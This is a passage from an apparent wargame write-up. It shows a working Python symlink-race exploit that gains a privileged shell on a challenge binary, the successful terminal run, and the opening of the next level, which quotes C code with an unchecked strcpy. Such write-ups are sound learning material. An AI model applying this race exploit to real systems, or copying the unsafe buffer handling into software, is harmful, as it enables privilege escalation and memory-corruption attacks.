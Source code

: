 ```python
# Start the program with the entry link to the maze as first parameter
proc = process(argv=[TARGET_EXECUTABLE, MAZE_PATH + LINK_NAME], env=os.environ)

#Introduce a small delay
time.sleep(0.01)

# Change the first link to our desired target file
os.remove(MAZE_PATH + LINK_NAME)
os.symlink(MAZE_PATH + EVIL_LINK_NAME, MAZE_PATH + LINK_NAME)

# Start an interactive shell to type our commands
proc.interactive()

# Delete the maze
os.system('rm -rf ' + MAZE_PATH)
```

We can execute the script to get a shell and obtain access to the next level

```bash
icyfire@razor level5 → python3 exploit.py
Creating symlink maze
Starting exploit
[+] Starting local process '/var/challenge/level5/5': pid 542229
[*] Switching to interactive mode
$ l33t
Woot! Congratulations you broke level lev6!
Adding user 'icyfire' to group 'lev6' ...
Adding user icyfire to group lev6
Done
$
[*] Stopped process '/var/challenge/level5/5' (pid 542229)
```

# Level 7

Inspecting the contents of `/var/challenge/level6`:

```bash
icyfire@razor level6 → ls /var/challenge/level6 -lha
total 128K
drwxr-x---  2 root lev6 4.0K Nov  4  2021 .
drwxr-xr-x 16 root sudo 4.0K Aug 27  2020 ..
-rwxr-sr-x  1 root lev7 7.6K Aug 27  2020 6
-rw-r--r--  1 root lev6  759 Aug 27  2020 6.c
-rwxr-xr-x  1 root lev7  70K Aug 27  2020 sort
-rwxr-xr-x  1 root lev7  34K Aug 27  2020 uniq
```

Examining `6.c` we have 

```c
...
if (argv[1]) {
    snprintf(filename, 255, "/var/challenge/level6/%s", basename(argv[1]));
    printf("Checking filename %s\n", filename);
    if (access(filename, X_OK)) {
        fprintf(stderr, "You do not have the permission to execute this file\n");
        return 1;
    }
}
...
if (argv[2]) {
    strcpy(buffer, argv[2]);
}
```